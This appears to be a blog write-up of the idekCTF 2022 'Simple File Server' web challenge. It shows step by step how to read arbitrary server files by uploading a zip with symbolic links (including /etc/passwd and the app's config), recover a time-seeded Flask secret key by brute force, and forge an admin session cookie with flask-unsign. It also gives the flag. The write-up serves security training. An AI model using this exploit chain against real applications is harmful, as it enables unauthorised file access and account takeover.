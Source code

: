 ```yaml
---
layout: post
title: idekCTF 2022 - Simple File Server
---
```


Simple File Server was a medium difficulty web challenge from idekCTF 2022. We abuse an symbolic link within a zip file to achieve arbitrary file read. This allows reading flask configuration files, which in combination with server initialisation time from web server logs can be used to determine the flask secret key. This can then be used to forge a flask session cookie that gives access to the flag endpoint.

---

The challenge included a fairly simple web application. There are both login and register options. We register a user `guest:guest` and continue. We are now presented with a file upload functionality.

[![](assets/image/attachments/2023-02-07-idekCTF2022-simple-file-server.png)](assets/image/attachments/2023-02-07-idekCTF2022-simple-file-server.png)
{:.glightbox}

We see we can upload a zip file and it will be automatically extracted. Let's look at the code for the endpoint.

```python
...

@app.route("/upload", methods=["GET", "POST"])
def upload():
    if not session.get("uid"):
        return redirect("/login")
    if request.method == "GET":
        return render_template("upload.html")

    if "file" not in request.files:
        flash("You didn't upload a file!", "danger")
        return render_template("upload.html")

    file = request.files["file"]
    uuidpath = str(uuid.uuid4())
    filename = f"{DATA_DIR}uploadraw/{uuidpath}.zip"
    file.save(filename)
    subprocess.call(["unzip", filename, "-d", f"{DATA_DIR}uploads/{uuidpath}"])
    flash(f'Your unique ID is <a href="/uploads/{uuidpath}">{uuidpath}</a>!', "success")
    logger.info(f"User {session.get('uid')} uploaded file {uuidpath}")
    return redirect("/upload")

...
```

The interesting part is the line `subprocess.call(["unzip", filename, "-d", f"{DATA_DIR}uploads/{uuidpath}"])`. It is not possible to use a zip slip style attack here because the `unzip` binary patches it directly. It is however, possible to use symbolic links. How does that work? well if we create a soft link like so:
```
$ ln -s ../../../../../../../etc/passwd symlink.txt
```

And zip it into zip file with the `--symlinks` argument with:

```
$ zip --symlinks test.zip symlink.txt
```

When the file is unzipped on the remote server, the symbolic link will be preserved, allowing us to read any file we know the path of onn the remote server. Because the Dockerfile is included with the challenge we can verify the location of any file we want to read. 

There is a config file with a redacted secret, so let's read that first

```
$ ln -s ../../../../../../../app/config.py symlink.txt
$ zip --symlinks test.zip symlink.txt
```

Upload test.zip and navigate to `/uploads/<uuid>/symlink.txt` and read the remote file.

```python
import random
import os
import time

# SECRET_OFFSET = 0 # On our local copy, this is REDACTED
SECRET_OFFSET = -67198624  # True value from the remote server
random.seed(round((time.time() + SECRET_OFFSET) * 1000))
os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
```

With this, we have one of the two pieces to reverse the value used to seed the random number generator, which would allow us to reverse the flask secret key. We don't know what time the server started is the only problem...

Let's take another look at the top of `app.py`.

```python
import logging
import os
import re
import sqlite3
import subprocess
import uuid
import zipfile

from flask import (Flask, flash, redirect, render_template, request, abort,
                   send_from_directory, session)
from werkzeug.security import check_password_hash, generate_password_hash


app = Flask(__name__)
DATA_DIR = "/tmp/"

# Uploads can only be 2MB in size
app.config['MAX_CONTENT_LENGTH'] = 2 * 1000 * 1000

# Configure logging
LOG_HANDLER = logging.FileHandler(DATA_DIR + 'server.log')
LOG_HANDLER.setFormatter(logging.Formatter(fmt="[{levelname}] [{asctime}] {message}", style='{'))
logger = logging.getLogger("application")
logger.addHandler(LOG_HANDLER)
logger.propagate = False
for handler in logging.root.handlers[:]:
    logging.root.removeHandler(handler)
logging.basicConfig(level=logging.WARNING, format='%(asctime)s %(levelname)s %(name)s %(threadName)s : %(message)s')
logging.getLogger().addHandler(logging.StreamHandler())

...

```

Included in the log format is a timestamp, `asctime`. If there was a log message when the server started we can use that to get a close estimate to the output of `time.time()`, and we can bruteforce around it to find the exact value.

We retrieve `/tmp/server.log` via the same method as before and find the timestamp `2023-01-14 19:57:21 +0000`. We use an online epoch converter and find the corresponding timestamp to be 1673726220. With the missing information now obtained we can start reversing the seed. The only problem left is that the timestamp we get is only accurate to the seconds precision, but `time.time()` has a millisecond component, and the `* 1000` means that the first three decimal places become significant. For example:
```
# we have
1673726220
# which is equivalent to
1673726220.0000000
# but the true timestamp is 
1673726220.ABCDEFG
# so after the * 1000 we have
1673726220ABC.DEFG
# after round
1673726220ABC
```

So we need to bruteforce the last three digits, let's go two seconds both directions to account for any discrepancies between the logs and `time.time()`.

```python
import random
import os
import time

SECRET_OFFSET = -67198624


#os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")

timestamp = 1673726220

timestamp =  timestamp + SECRET_OFFSET

start = (timestamp - 2) * 1000
end = (timestamp + 2) * 1000


with open("keys", 'w') as fh:
    for i in range(start, end):
        random.seed(i)
        fh.write("".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "") + '\n')

```

With the file of possible keys, we can now bruteforce our flask session with the utility `flask-unsign`.

```
$ flask-unsign -u -c 'eyJhZG1pbiI6ZmFsc2UsInVpZCI6ImFkbWluIn0.Y8MJOg.amfLkMNcyPV_uJ1Wjt65_4S2Ago' --wordlist keys --threads 10 --no-literal-eval  
[*] Session decodes to: {'admin': False, 'uid': 'guest'} 
[*] Starting brute-forcer with 10 threads.. 
[+] Found secret key after 1792 attemptseced99571547 
b'950b781d9bc7f04e697db73c1b3e5496'
```

Now we sign it with:

```
$ flask-unsign -s -c '{'admin': True, 'uid': 'admin'}' --secret '950b781d9bc7f04e697db73c1b3e5496'
```

Update the session cookie in your browser, and browse to `/flag` to get the flag.

idek{s1mpl3_expl01t_s3rver}